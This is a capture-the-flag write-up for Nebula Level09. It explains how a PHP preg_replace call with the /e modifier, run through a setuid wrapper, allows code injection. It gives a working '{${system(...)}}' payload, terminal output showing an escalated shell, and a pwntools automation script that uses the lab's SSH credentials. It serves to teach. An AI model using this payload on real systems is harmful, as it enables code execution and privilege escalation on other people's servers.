 # Level09

#### Description

There’s a C setuid wrapper for some vulnerable PHP code.

To do this level, log in as the **level09** account with the password **level09**. Files for this level can be found in /home/flag09.

#### Source Code

```php
<?php

function spam($email)
{
  $email = preg_replace("/\./", " dot ", $email);
  $email = preg_replace("/@/", " AT ", $email);
  
  return $email;
}

function markup($filename, $use_me)
{
  $contents = file_get_contents($filename);

  $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
  $contents = preg_replace("/\[/", "<", $contents);
  $contents = preg_replace("/\]/", ">", $contents);

  return $contents;
}

$output = markup($argv[1], $argv[2]);

print $output;

?>
```

#### Solution

1. `file_get_contents($filename)` reads untrusted file contents (the file name comes from `argv[1]` with no validation).
2. `preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);` uses the `/e` modifier, which tells PHP to evaluate the replacement string as PHP code. The replacement string embeds the captured group (`\2`) directly inside that evaluated code.
3. An attacker controlling the text captured by `(.*)` can craft content that breaks out of the quoted string in the replacement and inject arbitrary PHP code — which will be executed.

Because the captured portion (`\2`) is attacker-controlled and gets inserted into evaluated PHP, the script effectively performs `eval()` on untrusted input.

Here, we cannot just simply do `system(command)` as it will interpret it as a normal string to make our payload work we have to use PHP Complex curly Syntax, So system function get called with our command as parameter. like these:

<pre class="language-php"><code class="lang-php"><strong>[email {${system(command)}}]
</strong></code></pre>

```bash
level09@nebula:/home/flag09$ echo '[email {${system(id)}}]' > /tmp/file 
level09@nebula:/home/flag09$ ./flag09 /tmp/file
PHP Notice:  Undefined offset: 2 in /home/flag09/flag09.php on line 22
PHP Notice:  Use of undefined constant id - assumed 'id' in /home/flag09/flag09.php(15) : regexp code on line 1
uid=1010(level09) gid=1010(level09) euid=990(flag09) groups=990(flag09),1010(level09)
PHP Notice:  Undefined variable: uid=1010(level09) gid=1010(level09) euid=990(flag09) groups=990(flag09),1010(level09) in /home/flag09/flag09.php(15) : regexp code on line 1
```

As we can see, this program successfully executed our id command, so next we can use getflag command also.

```bash
level09@nebula:/home/flag09$ echo '[email {${system(getflag)}}]' > /tmp/file 
level09@nebula:/home/flag09$ ./flag09 /tmp/file
PHP Notice:  Undefined offset: 2 in /home/flag09/flag09.php on line 22
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/flag09/flag09.php(15) : regexp code on line 1
You have successfully executed getflag on a target account
PHP Notice:  Undefined variable: You have successfully executed getflag on a target account in /home/flag09/flag09.php(15) : regexp code on line 1
```

And we can also try to use `$use_me` parameter from markup function as it was not used anywhere

```bash
level09@nebula:/home/flag09$ echo '[email {${system($use_me)}}]' > /tmp/file 
level09@nebula:/home/flag09$ ./flag09 /tmp/file sh
sh-4.2$ id
uid=1010(level09) gid=1010(level09) euid=990(flag09) groups=990(flag09),1010(level09)
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

#### Python Automation

```python
from pwn import *
from sys import argv, exit

# Check if IP address is provided as an argument
if len(argv) < 2:
    sys.exit("IP address not found.")

# Establishes SSH connection with target IP address
session = ssh(host=argv[1], user='level09', password='level09')

terminal = session.shell()
terminal.sendline("echo '[email {${system($use_me)}}]' > /tmp/file")
terminal.sendline(" /home/flag09/flag09 /tmp/file sh")
terminal.recvuntil("$ ")
terminal.sendline("id && getflag")
terminal.interactive()
```

<figure><img src="../../../.gitbook/assets/image (68).png" alt=""><figcaption></figcaption></figure>
